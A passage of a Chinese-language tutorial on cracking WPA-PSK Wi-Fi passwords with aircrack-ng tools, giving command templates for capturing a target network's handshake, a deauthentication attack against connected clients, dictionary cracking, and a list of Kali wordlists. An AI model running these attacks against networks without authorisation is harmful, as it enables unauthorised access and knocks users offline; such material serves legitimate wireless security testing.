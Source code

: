 ```bash

- 使用参数过滤列表，确定目标

airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>


Enter 后不要关闭，新开一个shell执行其它操作，如果不能看清就 `两次 q ` 方便

```

### 4、`deauth` 攻击加速破解过程

```bash

aireplay-ng -<攻击模式> <攻击次数> -a <AP_MAC> -c <正连接AP的客户端的MAC> <wlan0mon>

```

然后回到抓取数据包的界面。在右上角出现 handshake 的提示证明获得了包含 WPA-PSK 密码的握手数据报文。如未出现，再次执行上述步骤

## 破解 WPA-PSK

`aircrack-ng -w dict.txt 捕获的.cap`

## 无线网卡退出监听模式

`sudo airmon-ng stop wlan0mon`

## 字典

```

关于kali系统自带字典目录wordlists

路径：/usr/share/wordlists/


dirb

big.txt #大的字典

small.txt #小的字典

catala.txt #项目配置字典

common.txt #公共字典

euskera.txt #数据目录字典

extensions_common.txt #常用文件扩展名字典

indexes.txt #首页字典

mutations_common.txt #备份扩展名

spanish.txt #方法名或库目录

others #扩展目录，默认用户名等

stress #压力测试

vulns #漏洞测试


```